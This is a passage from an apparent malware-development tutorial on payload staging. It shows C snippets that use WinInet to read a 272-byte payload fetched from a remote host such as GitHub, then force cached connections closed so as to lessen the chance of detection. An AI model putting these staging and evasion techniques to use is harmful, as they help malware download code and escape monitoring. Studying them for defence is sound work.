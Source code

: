 Before calling the function, a buffer must be allocated to hold the payload. Therefore, [LocalAlloc](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-localalloc) is used to allocate a buffer the same size as the payload, 272 bytes. Once the buffer has been allocated, `InternetReadFile` can be used to read the payload. The function requires the number of bytes to read which in this case is `272`.

```c
pBytes = (PBYTE)LocalAlloc(LPTR, 272);
InternetReadFile(hInternetFile, pBytes, 272, &dwBytesRead)
```

### Closing InterntHandle

[InternetCloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetclosehandle) is used to close an internet handle. This should be called once the payload has been successfully fetched.

```c
BOOL InternetCloseHandle(
  [in] HINTERNET hInternet // Handle opened by InternetOpenW & InternetOpenUrlW
);
```

### Closing HTTP/S Connections

It's important to be aware that the `InternetCloseHandle` WinAPI does not close the HTTP/S connection. WinInet tries to reuse connections and therefore although the handle was closed, the connection remains active. Closing the connection is vital to lessen the possibility of detection. For example, a binary was created that fetches a payload from GitHub. The image below shows the binary still connected to GitHub although the binary's execution was completed.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/staging-github.png)

Luckily, the solution is quite simple. All that is required is to tell WinInet to close all the connections using the [InternetSetOptionW](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetsetoptionw) WinAPI.

```c
BOOL InternetSetOptionW(
  [in] HINTERNET hInternet,     // NULL
  [in] DWORD     dwOption,      // INTERNET_OPTION_SETTINGS_CHANGED
  [in] LPVOID    lpBuffer,      // NULL
  [in] DWORD     dwBufferLength // 0
);
```

Calling `InternetSetOptionW` with the `INTERNET_OPTION_SETTINGS_CHANGED` flag will cause the system to update the cached version of its internet settings and thus resulting in the connections saved by WinInet being closed.

```c
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
```

### Payload Staging - Code Snippet
